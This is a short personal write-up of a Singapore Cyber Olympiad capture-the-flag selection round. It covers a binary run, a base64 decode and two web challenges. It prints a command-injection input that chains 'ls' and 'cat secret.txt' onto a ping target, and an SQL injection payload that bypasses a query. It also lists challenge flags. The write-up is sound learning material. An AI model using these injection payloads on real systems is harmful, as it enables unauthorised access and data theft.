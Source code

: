 # Singapore Cyber Oympiad 2nd Selection

Overall I think I did ... kinda below standard. Especially since I've worked for my OSCP and am currently working for my Burp Suite Certified Practitioner right now. 

I got 20th out of 52, which is above average. However, I feel it may still quite low in order to be selected, especially since I couldn't do 3 Easy challenges, and 1 Intermediate challenge. What was more frustrating is that I completed all the challenges I did within the first 45 minutes of the 2 hour selection, so I had time.

But oh well, I'll keep improving to get better. Maybe I'll get in next time!

![[scoreboard_2.png]]

# Easy


## Eggxcute
```
(base) [hacker@hackerbook tmp]$ chmod +x eggxecuteme 
(base) [hacker@hackerbook tmp]$ ./eggxecuteme 
flag{c730f03e9fbf9fd58bf84a2028a0a21e}
(base) [hacker@hackerbook tmp]$ 
```


## Basecamp

File given: base26.txt

Solution: Base64 decode the contents of the file

```bash
(base) [hacker@hackerbook blockcyber]$ echo "ZmxhZ3tjYmFkOWJhOWM2YzRlMTc4ODQyN2ZmZGU2OWZhOWQzNX0=" | base64 -d
flag{cbad9ba9c6c4e1788427ffde69fa9d35}(base) [hacker@hackerbook blockcyber]$ 
```

## Bestpinger

Obviously a command injection task

Input is `127.0.0.1; ls; cat secret.txt`

## Search Warrant

Obviously SQL

![[Pasted image 20221029164412.png]]

Solution is
```
0' OR 1=1; --
```
